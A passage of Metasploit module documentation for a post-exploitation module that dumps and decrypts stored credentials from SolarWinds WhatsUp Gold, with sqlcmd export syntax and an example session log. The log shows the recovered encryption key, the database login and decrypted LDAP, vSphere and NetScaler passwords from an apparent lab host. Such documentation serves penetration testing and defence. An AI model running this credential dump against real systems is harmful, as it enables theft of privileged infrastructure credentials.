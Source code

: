 Output must be encoded VARBINARY per above, and must be well-formed CSV (i.e. no trailing whitespace).
If using `sqlcmd`, ensure the `-W` and `-I` parameters are included to strip trailing whitespace and
allow quoted identifyers. Suggested syntax for `sqlcmd` using Windows authentication is below, where
the contents of `solarwinds_sql_query.sql` is the text of the SQL query above:

`sqlcmd -d "<DBNAME>" -S <MSSQL_INSTANCE> -E -i sql_query.sql -o wug_dump.csv -h-1 -s"," -w 65535 -W -I`

This should place a CSV export file suitable for use within the module at `wug_dump.csv`. If
using SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host running WhatsUp Gold Build 22.1.39 with external database
and SQL native authentication using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WUG IPv4 192.168.101.137
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: cornflakes.cesium137.io
[+]     Database Name: WhatsUp
[+]     Database User: WhatsUpGold_WUG
[+]     Database Pass: KB4A5bERZ13o6GGF3kON3z6mx5
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[+] 11 WUG rows exported, 4 unique nCredentialTypeIDs
[+] Encrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_enc_233587.txt
[*] Performing decryption of WhatsUp Gold SQL database
[+] 11 WUG rows loaded, 4 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 11 WUG rows processed
[*] 11 rows recovered: 7 plaintext, 4 decrypted (0 blank)
[*] 11 rows written (0 blank rows withheld)
[+] 4 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: LDAP bind account
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Recovered Credential: vSphere SSO Admin
[+]     L: Administrator@vSphere.local
[+]     P: IAmOut2Lunch!
[+] Recovered Credential: NetScaler root
[+]     L: nsroot
[+]     P: quit2day!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218103644_default_192.168.101.137_whatsup_gold_dec_398808.txt
[*] Post module execution completed
```